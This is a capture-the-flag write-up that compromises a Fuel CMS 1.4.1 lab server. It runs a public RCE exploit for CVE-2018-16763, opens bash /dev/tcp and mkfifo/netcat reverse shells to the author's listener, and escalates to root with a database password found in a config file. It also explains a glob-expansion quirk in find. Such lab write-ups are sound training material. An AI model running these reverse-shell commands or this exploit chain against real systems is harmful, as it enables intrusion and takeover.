





## Scenario

>Do reconnaissance and find a way into the server. Can you find root credentials?

Access via: `10.114.185.36`
### Question 1 — User.txt

I opened the target in the browser and landed on the Fuel CMS welcome page, which stated the version and gave default admin credentials directly on the page.





I followed the link and logged in with `admin` / `admin`.



I looked through the available admin sections (Pages, Blocks, Navigation, Assets, Users, Permissions, etc.) but found nothing immediately exploitable through the interface itself, so I moved to researching known vulnerabilities for this CMS and version instead.

I searched for Fuel CMS vulnerabilities and found a critical pre-authentication remote code execution flaw affecting version 1.4.



I confirmed the underlying tech stack with Wappalyzer to make sure the exploit I'd pick matched the target.



Confirmed: the stack (PHP, CodeIgniter, Apache on Ubuntu) matched the CVE-2018-16763 writeup, so this is the vulnerability to pursue. I searched Exploit-DB for a working exploit.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit fuel cms       

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                                                                | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                                                                | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                                                                                | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                                                                               | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                                                                      | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                                                                          | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                                                                                                                                        | php/webapps/50884.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Three results matched the RCE: one filed under `linux/webapps` and two under `php/webapps`. Since Wappalyzer confirmed the site runs on PHP, I narrowed the choice to the two `php/webapps` entries and checked both:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit -x 49487   

  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (2)
      URL: https://www.exploit-db.com/exploits/49487
     Path: /usr/share/exploitdb/exploits/php/webapps/49487.rb
    Codes: CVE-2018-16763
 Verified: False
File Type: Ruby script, ASCII text
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit -x 50477

  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
```

**Breakdown (`searchsploit -x`):**

- `searchsploit` is the local Exploit-DB search tool
- `-x` ("examine") prints an exploit's metadata and source without copying the file, so I could compare both candidates before picking one

Both targeted the same CVE; I picked the Python one (50477) as the more promising option and mirrored it locally:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit -m 50477

  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/—REDACTED—/50477.py
```

**Breakdown:** `-m` ("mirror") copies the exploit file from the local Exploit-DB archive into the current directory, same as the `-m` use in the earlier AnyDesk exploit.

I ran it against the target:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ python3 50477.py -u http://10.114.185.36   

[+]Connecting...
Enter Command $
```

**Breakdown:**

- `python3 50477.py` runs the mirrored exploit script
- `-u http://10.114.185.36` passes the target's URL as the script's required argument

The script delivered its payload and dropped straight into a command shell against the target.

I checked the shell's basic environment before doing anything further:

```shell
Enter Command $echo $0

systemsh

Enter Command $which bash

system/bin/bash
```

Both responses look off for a normal shell — `echo $0` would usually report something like `/bin/sh` or `/bin/bash`, and `which bash` would normally return a path starting with `/`, not `system/bin/bash`. Hypothesis: this is a restricted or non-interactive shell produced by the exploit's own command-execution mechanism (likely running commands through PHP rather than spawning a real shell process), not a genuine interactive bash session.

That hypothesis was confirmed by what happened next. I tried a standard bash reverse shell one-liner:

```shell
Enter Command $bash -c 'bash -i >& /dev/tcp/—REDACTED—/4444 0>&1' 
```

This produced no callback on my listener. This was a dead end: the command relies on genuine interactive bash with `/dev/tcp` support, which the shell's own mangled `echo $0`/`which bash` output had already suggested wasn't reliably available here.

I switched to the more portable mkfifo/netcat reverse shell instead, which depends only on `/bin/sh` and `nc` being present rather than bash-specific features:

```shell
Enter Command $rm -f /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc —REDACTED— 4444 > /tmp/f     
```

**Breakdown:**

- `rm -f /tmp/f` deletes any leftover named pipe from a previous attempt, without erroring if it doesn't exist
- `mkfifo /tmp/f` creates a named pipe (FIFO) at `/tmp/f`, a special file that passes data between processes
- `cat /tmp/f` reads from the pipe and feeds that data onward
- `|/bin/sh -i 2>&1` pipes that data into an interactive shell, and redirects the shell's standard error into standard output so both are captured
- `|nc —REDACTED— 4444` pipes the shell's output to netcat, which sends it to my listener
- `> /tmp/f` redirects netcat's own incoming data back into the pipe, completing the loop so commands sent from my listener reach the shell's input

Confirmed: this worked. My listener caught the connection:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444

listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.185.36] 55006
/bin/sh: 0: can't access tty; job control turned off
$ 
```

The shell had no tty, so I upgraded it:

```shell
$ ls

README.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt

$ which python3

/usr/bin/python3

$ python3 -c 'import pty; pty.spawn("/bin/bash")' 

www-data@ubuntu:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg                  

[1]  + continued  nc -lvnp 4444

www-data@ubuntu:/var/www/html$ export TERM=xterm-256color                    
www-data@ubuntu:/var/www/html$ stty rows 52 columns 236
```

**Breakdown:**

- `ls` confirmed I'd landed in the web root (`/var/www/html`), seeing the same `fuel` application directory the CMS is built from
- `which python3` checked for a Python 3 interpreter to use for the tty upgrade
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` runs a one-line Python script that spawns a proper interactive bash shell through a pseudo-terminal, giving a more usable shell than the raw netcat pipe
- `^Z` (Ctrl+Z) backgrounds the local `nc` process so I could adjust my own terminal settings
- `stty raw -echo` puts my local terminal into raw mode and disables local echo, needed so keystrokes like Ctrl+C pass through to the remote shell properly; `fg` brings the backgrounded `nc` process back to the foreground
- `export TERM=xterm-256color` sets a proper terminal type on the remote shell, fixing issues with interactive tools that expect `TERM` to be set
- `stty rows 52 columns 236` tells the remote shell my actual terminal dimensions, so output doesn't wrap incorrectly

With a working shell as `www-data`, I looked for the flag:

```shell
www-data@ubuntu:/var/www/html$ find / -type f -name *.txt 2>/dev/null | grep -i user

/usr/share/doc/hplip/users-guide.txt
```

This came back with nothing relevant. At the time, I assumed the flag files simply sat in a directory `www-data` couldn't read, so I tried the same search with `sudo`:

```shell
www-data@ubuntu:/var/www/html$ sudo find / -type f -name *.txt 2>/dev/null | grep -i user

[sudo] password for www-data: 
[sudo] password for www-data: 
[sudo] password for www-data: 
```

I tried the password `admin`, since that was the only credential I had, but it was rejected across all three attempts. This was a dead end: `www-data` wasn't in the sudoers group with that password, so this wasn't a usable path to escalation.

I switched to hunting for a privilege-escalation route by reading the application's own configuration instead:

```shell
www-data@ubuntu:/var/www/html$ find ./ -type d -name config 2>/dev/null 

./fuel/modules/fuel/views/_generate/advanced/config
./fuel/modules/fuel/libraries/parser/dwoo/Dwoo/Adapters/CodeIgniter/config
./fuel/modules/fuel/assets/docs/fuel_modules_example/config
./fuel/modules/fuel/config
./fuel/application/config
```

`fuel/application/config` is the application's own (non-module) config directory, so I checked its database configuration file, since CMS database credentials are frequently reused for the system account:

```shell
www-data@ubuntu:/var/www/html$ cd fuel/application/config
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	...
);
```

This gave a database username of `root` with the password `mememe`. Hypothesis: this password might be reused for the Linux `root` account, not just the MySQL one.

```shell
www-data@ubuntu:/var/www/html/fuel/application/config$ su root

Password: 
root@ubuntu:/var/www/html/fuel/application/config# 
```

Confirmed: the password was reused, and `su root` succeeded, giving a full root shell.

With root, I retried the earlier `find` command, expecting it to now succeed:

```shell
root@ubuntu:/var/www/html/fuel/application/config# find / -type f -name *.txt 2>/dev/null | grep -i user

/usr/share/doc/hplip/users-guide.txt
```

This still came back empty for "user", even with root access, which ruled out permissions as the cause of the earlier failed search. I changed approach and searched for "flag" instead of "user":

```shell
root@ubuntu:/var/www/html/fuel/application/config# find / -type f -name *.txt 2>/dev/null | grep -i flag

/home/www-data/flag.txt
```

This found a flag file in the `www-data` home directory:

```shell
root@ubuntu:/var/www/html/fuel/application/config# cd /home/www-data/
root@ubuntu:/home/www-data# ls -la

total 12
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt

root@ubuntu:/home/www-data# cat flag.txt

—REDACTED— 
```

**Answer:** `—REDACTED—`

### Question 2 — Root.txt

I looked for a second flag file the same way, from the `www-data` home directory:

```shell
root@ubuntu:/home/www-data# find / -type f -name *.txt 2>/dev/null | grep -i root

```

This returned nothing. I then moved to the `/root` directory and ran essentially the same search again:

```shell
root@ubuntu:~# find / -type f -name *.txt 2>/dev/null | grep -i root

/root/root.txt
```

This time it found `/root/root.txt`. At this point I was confused about why the exact same `find` command had failed from `/home/www-data` but succeeded from `/root`, since `find /` should search the whole filesystem regardless of the current directory.

The cause turned out to be the unquoted `*.txt` in the command, which bash — not `find` — was expanding before the command ever ran. Bash only leaves a wildcard like `*.txt` untouched and passes it through literally if nothing in the current directory matches it; if something does match, bash silently substitutes that filename in its place:

- From `/var/www/html/fuel/application/config` (no `.txt` files there), nothing matched, so bash passed `*.txt` through unchanged and `find` searched the whole filesystem as intended.
- From `/home/www-data`, the directory itself contains `flag.txt`, which matches `*.txt`. Bash silently rewrote the command to search for files literally named `flag.txt`, so the `grep -i root` found nothing, since that path doesn't contain "root".
- From `/root`, the directory contains `root.txt`, which also matches `*.txt`. Bash rewrote the command to search for files named `root.txt`, which happened to find `/root/root.txt` — the correct file, but only by coincidence of which directory I was standing in, not because `find`'s own search logic had changed.

Quoting the wildcard stops bash from touching it, so `find` performs its own matching regardless of the working directory:

```shell
root@ubuntu:/home/www-data# find / -type f -name "*.txt" 2>/dev/null | grep -i root

/root/root.txt
/usr/share/cups/doc-root/robots.txt
```

```shell
root@ubuntu:/home/www-data# cat /root/root.txt

—REDACTED— 
```

**Answer:** `—REDACTED—`